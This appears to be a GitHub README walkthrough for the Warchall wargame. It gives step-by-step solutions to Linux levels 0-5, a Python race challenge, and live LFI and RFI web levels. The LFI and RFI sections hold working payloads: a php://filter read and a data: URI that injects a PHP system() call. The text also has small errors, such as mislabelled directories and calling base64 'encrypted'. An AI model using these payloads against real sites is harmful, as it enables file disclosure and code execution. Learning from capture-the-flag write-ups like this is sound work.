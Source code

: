 # Warchall

## Warchall - The Beginning

Congratulations! You are now on your way to becoming a Linux superhacker.

Create an SSH account using the form below. Then enter the six solutions for levels 0-5, separated by commas.

Example: "bitwarrior, Solution1, Solution2, Solution3, Solution4, Solution5"

Connect to the our count ssh,using this commande
ssh -p 19198 pseudo@warchall.net
```bash
  ssh -p 19198 freddy@warchall.net
```

### Level 0
1- Use the ls command to display the contents of the current folder:
ls 
```bash
  ls
```

2- Show the contents of the WELCOME.md file using cat WELCOME.md:
```bash
  cat WELCOME.md
```

3- Navigate to the directory containing the challenge mentioned in the WELCOME.md file:
```
  /home/level/ or /home/user/freddy/level
```

4- Open the 00_WELCOME directory using the cd command and read the README.md file to find the solution:
```bash
  cd 00_WELCOME
  cat README.md
```
### Level 1
1- Open the 01_choice_tree directory using cd:
```bash
  cd O1_choice_tree
```
2- Search for the file containing the solution using the du command:
```bash
  du
```
3- Open the directory using cd and read the file containing the solution using cat:
```bash
  cd ./blue/hats/grey/solution
  cat SOLUTION.txt
```

### Level 2
1- Open the 02 directory using cd:
```bash
  cd O2
```
2- Search for all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Open the solution directory using cd and read the solution file using cat:
```bash
  cd ./porb
  cat ./.solution
```

### Level 3
1- Open the 03 directory using cd:
```bash
  cd O3
```
2- Show all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Read the file ./.bash_history using the cat command:
```bash
  cat ./.bash_history
```

### Level 4
1- Open the 04_kwisatz directory using cd:
```bash
  cd 04_kwisatz
```
2- Show the contents of this directory using ls and read the README.nfo file using cat:
```bash
  cat README.nfo
```
3- Go to the home directory using cd:
```bash
  cd 
```
4- Show all contents of this directory using du:
```bash
  du -b -a
```
5- Read the file containing the solution using cat:
```bash
  cat ./level/04_kwisatz/README2.md
```
### Level 5
1- Open the 05_privacy directory using cd:
```bash
  cd 05_privacy
```
2- Show the contents of this directory using ls:
```bash
  ls
```
3- Read the README.md file using cat:
```bash
  cat README.md 
```
## Py-tong
A fellow hacker is challenging you to exploit a simple python script.
To exploit it live, you have to create your Warchall account and try your luck there.
To see what it is about you can also view the source here.

Note: It is not required to trigger a race condition, but it should work as well.
Note: You have to use the binary "pytong" not the pytong.py. It is a wrapper which is needed for SETREGID and finally gives the solution.
### Level 12
To solve this challenge, the following command is used: ./pytong <(echo text)

./pytong: This is the execution of the pytong binary, which is the Python script to exploit
<: This is the redirection operator; it takes the output of the following command and uses it as input for ./pytong.
(echo text): This generates the string "text" and passes it as input to ./pytong
```bash
./pytong <(echo text)
```
## Live LFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live LFI challenge that is hosted on it.

### Level14
Your objective is to retrieve the content of the `solution.php` file using LFI. Follow the steps below to complete the challenge.

1- Visit the following link in the web browser:
```
https://lfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://lfi.warchall.net/?lang=php://filter/read=convert.base64-encode/resource=solution.php
```
This payload utilizes the `php://filter` stream to encode the content of `solution.php` in base64.

3- Copy the encrypted base64-encoded text from the webpage and decode it using the following bash command in your terminal:
```bash
  echo "text_encrypted" | base64 -d
```

## Live RFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live RFI challenge hosted on it.
### Level 15
Your objective is to retrieve the content of the `solution.php` file using RFI. Follow the steps below to complete the challenge.
1- Visit the following link in the web browser:
```
https://rfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://rfi.warchall.net/index.php?lang=data:text/plain,%3C?php%20system(%22cat%20solution.php%22)?%3E%E3%80%82
```
The lang parameter of the URL is set to data:text/plain, the string <?php system("cat solution.php")?>. This parameter tells the PHP server to return the content of the PHP file solution.php as plain text.
The string <?php system("cat solution.php")?> is a PHP instruction that calls the function system(). The function system() executes a program or script as a child process. In this case, the program or script executed is the program cat. The program cat reads the contents of a file and displays them on the standard output.
3- After visiting the link above, please inspect the site :
```
  right click and choose the inspect option
```

